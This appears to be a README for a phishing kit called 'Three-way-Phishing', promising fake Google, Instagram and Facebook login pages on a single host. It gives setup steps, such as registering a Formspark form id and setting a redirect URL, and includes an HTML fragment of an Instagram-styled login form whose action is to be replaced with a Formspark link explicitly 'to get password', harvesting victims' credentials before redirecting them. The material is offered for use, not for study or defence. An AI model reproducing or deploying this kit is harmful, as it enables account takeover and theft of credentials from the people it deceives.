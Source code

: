 # Three-way-Phishing
All in one website you can  now phish google,instagrame and facebook in one hosting 


# Instagram-Login-Page


change before hosting :

* signup formspark and get id and pastit here
* change redirect url before use 



"""<div class="logo">
				<img src="instagram.png" alt="instagram" style="width: 175px;">
			</div>
			<form action="ENTER YOUR https://formspark.io/?ref=formspark_api LINK TO GET PASSWORD  " target="_self">
						   <input type="hidden" name="_redirect" value="ENTER YOUR REDIRECT URL HERE" />
			<div class="form">

"""

by REVANTHSHIVA(CEH)


<img>sample images pf webpages/Screenshot (6).png</img>
